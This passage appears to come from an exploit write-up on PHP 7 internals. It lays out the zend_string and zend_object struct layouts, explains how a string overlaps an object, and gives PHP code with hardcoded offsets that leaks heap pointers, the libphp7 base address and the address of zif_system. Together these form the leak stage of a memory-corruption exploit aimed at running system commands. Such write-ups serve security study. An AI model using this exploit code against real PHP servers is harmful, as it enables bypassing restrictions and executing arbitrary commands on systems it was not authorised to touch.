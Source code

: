 ```c
struct _zend_string {
    zend_refcounted_h gc;
    zend_ulong        h;                /* hash value */
    size_t            len;
    char              val[1];
};
struct _zend_object {
    zend_refcounted_h gc;
    uint32_t          handle; // TODO: may be removed ???
    zend_class_entry *ce;
    const zend_object_handlers *handlers;
    HashTable        *properties;
    zval              properties_table[1]; 
    // zval is a union followed by its type description
    // for example: string is _zend_string* pointer and 0x6
};
```

The overlap is shown below:

```
string      object
gc          gc
h           handle
len         ce
val+0       handlers
val+8       properties
val+16      first field
val+24      type of first field
       ...
```

### Leak

Therefore, we can leak pointer of object by reading content in `+0x10` offset. In addition, pointer `handlers` points to somewhere at `libphp7.so` so that we can also leak base address of `libphp7`.

```php
$helper = new Helper;
$helper->a = $helper;
$helper->b = function($x) {};
$helper->c = 0x1337;

$closure_handlers = str2ptr($abc, 0);
$php_heap = str2ptr($abc, 0x10);
// leaker address of $helper, which is also that of $abc
$helper->a = "helper"; 
// if we still have circular reference, 
// a strage crash will occur when rewriting string,
// so we remove circular reference here
$abc_addr = $php_heap + 0x18;
$libphp_addr = str2ptr($abc, 0) - 0xd73ec0;
$zif_system = $libphp_addr + 0x355a86;
// leak libphp and thus zif_system function
$helper->b = function($x){};
$closure_obj = str2ptr($abc, 0x20);
// leak a pointer pointing to a user-defined function object
```
